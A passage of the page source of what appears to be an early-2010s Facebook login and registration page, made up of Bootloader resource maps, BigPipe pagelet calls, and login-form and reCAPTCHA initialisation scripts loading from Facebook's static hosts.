HXuC.js"},"H42Jh":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y3\/r\/ppwOo4BAmlb.js"},"AtxWD":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y1\/r\/fvXyHGM5qlP.js"}});
Bootloader.enableBootload({"legacy:async-signal":{"resources":["YO7w5"]},"editor":{"resources":["YO7w5","wLu\/7","JE+14"]},"AsyncDOM":{"resources":["YO7w5","gM1Bs"],"module":true},"ConfirmationDialog":{"resources":["YO7w5","wLu\/7","oE4Do"],"module":true},"Dialog":{"resources":["YO7w5","wLu\/7","byJia"],"module":true},"registration":{"resources":["YO7w5","wLu\/7","JE+14","A77NA","T8gbI","\/K81D"]},"IframeShim":{"resources":["YO7w5","wLu\/7","GTz7X","MqSmz"],"module":true},"ErrorSignal":{"resources":["YO7w5","cNca2"],"module":true},"event-extensions":{"resources":["YO7w5"],"module":true},"AsyncDialog":{"resources":["YO7w5","wLu\/7","GTz7X","byJia"],"module":true},"FbdDialogProvider":{"resources":["\/vuZw","YO7w5","bwsMw"],"module":true},"React":{"resources":["gM1Bs"],"module":true},"AsyncRequest":{"resources":["YO7w5"],"module":true},"PhotoSnowlift":{"resources":["YO7w5","wLu\/7","GTz7X","byJia","3quxQ"],"module":true},"SpotlightShareViewer":{"resources":["YO7w5","wLu\/7","X\/Fq6","zyFOp"],"module":true},"PhotoTagger":{"resources":["YO7w5","wLu\/7","byJia","9kSd2","3quxQ","GTz7X","SRzKv","KQ5I8"],"module":true},"fb-photos-snowlift-css":{"resources":["iQgIT","byJia"]},"Live":{"resources":["YO7w5","gM1Bs"],"module":true},"PhotoTagApproval":{"resources":["YO7w5","3quxQ","SRzKv"],"module":true},"PhotoTags":{"resources":["YO7w5","3quxQ","byJia","SRzKv"],"module":true},"TagTokenizer":{"resources":["YO7w5","3quxQ","M2hRu","SRzKv","byJia","GTz7X"],"module":true},"fb-photos-snowlift-fullscreen-css":{"resources":["VDymv"]},"PhotoPivot":{"resources":["YO7w5","wLu\/7","3quxQ","GTz7X","byJia","2ma5f"],"module":true},"SnowliftPicCropper":{"resources":["YO7w5","wLu\/7","byJia","3quxQ","GTz7X","j07DW","wxq+C"],"module":true},"PhotosButtonTooltips":{"resources":["YO7w5","GTz7X","wLu\/7","byJia","DZmeF"],"module":true},"VideoRotate":{"resources":["YO7w5","H42Jh"],"module":true},"AsyncResponse":{"resources":["YO7w5"],"module":true},"PhotoInlineEditor":{"resources":["YO7w5","3quxQ","GTz7X","wLu\/7","byJia","SRzKv","AtxWD"],"module":true},"Form":{"resources":["YO7w5","wLu\/7"],"module":true},"Toggler":{"resources":["YO7w5","wLu\/7","byJia","GTz7X"],"module":true},"Tooltip":{"resources":["YO7w5","GTz7X","wLu\/7","byJia"],"module":true},"DOM":{"resources":["YO7w5"],"module":true},"Input":{"resources":["YO7w5"],"module":true},"trackReferrer":{"resources":[],"module":true},"DimensionTracking":{"resources":["YO7w5"],"module":true},"HighContrastMode":{"resources":["YO7w5"],"module":true},"detect-broken-proxy-cache":{"resources":["YO7w5"]}});</script>
<script>require("InitialJSLoader").loadOnDOMContentReady(["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"]);</script>
<script>
Bootloader.configurePage(["A77NA","byJia","VuNPD"]);
Bootloader.done(["jDr+c"]);


require("InitialJSLoader").handleServerJS({"elements":[["m639397_2","login_form",2],["m639397_3","loginbutton",2],["m639398_4","login_form",2],["m639395_1","reg",2]],"define":[["BanzaiConfig",[],{"MAX_SIZE":10000,"MAX_WAIT":60000,"COMPRESSION_THRESHOLD":800,"gks":{"cavalry":true,"jslogger":true,"miny_compression":true,"notifications":true,"time_spent":true,"time_spent_debug":true,"useraction":true}}]],"require":[["PixelRatio","startDetecting",[],[1]],["FlipDirectionOnKeypress"],["PostLoadJS","loadAndRequire",[],["DimensionTracking"]],["PostLoadJS","loadAndCall",[],["HighContrastMode","init",[{"currentState":null,"spacerImage":"https:\/\/s-static.ak.facebook.com\/rsrc.php\/v2\/y4\/r\/-PAXP-deijE.gif"}]]],["IEPinnedSite","listenToNotifications",[],["https:\/\/s-static.ak.facebook.com\/rsrc.php\/yP\/r\/FE37bBX_c2p.ico"]],["ClickRefLogger"],["userAction","setUATypeConfig",[],[{"ua:n":false,"ua:i":false,"ua:d":false,"ua:e":false}]],["ScriptPathState","setUserURISampleRate",[],[0.0002]],["userAction","setCustomSampleConfig",[],[{"uan":{"test":{"test":true}}}]],["UserActionHistory"],["TinyViewport"],["WebStorageMonster","schedule",[],[false]],["AsyncRequestNectarLogging"],["LoginFormController","init",["m639397_2","m639397_3"],[{"__m":"m639397_2"},{"__m":"m639397_3"}]]]});

onloadRegister_DEPRECATED(function (){useragentcm();});
onloadRegister_DEPRECATED(function (){
      if (typeof RegUtil == 'undefined') {
        RegUtil = function() {};
      }
      RegUtil.captcha_class="ReCaptchaCaptcha";
      RegUtil.recaptcha_public_key="6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL";
      });
onloadRegister_DEPRECATED(function (){RegistrationBootloader.init("registration_container", true, "reg", "form_focus", "https:\/\/www.facebook.com\/ajax\/register.php");});
onloadRegister_DEPRECATED(function (){startFormTypeABTester($("reg"))});
onloadRegister_DEPRECATED(function (){$("u5v8wy73").value = tz_calculate(1354996393)});
onloadRegister_DEPRECATED(function (){try { $("email").focus(); } catch (_ignore) { }});
onafterloadRegister_DEPRECATED(function (){Bootloader.loadComponents(["detect-broken-proxy-cache"], function(){ detect_broken_proxy_cache("0", "c_user") });});
</script>
<script>var bigPipe = new (require('BigPipe'))({"lid":0,"forceFinish":true});</script>

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"first_response","phase":0})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"","phase":1,"the_end":true})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           </body></html>
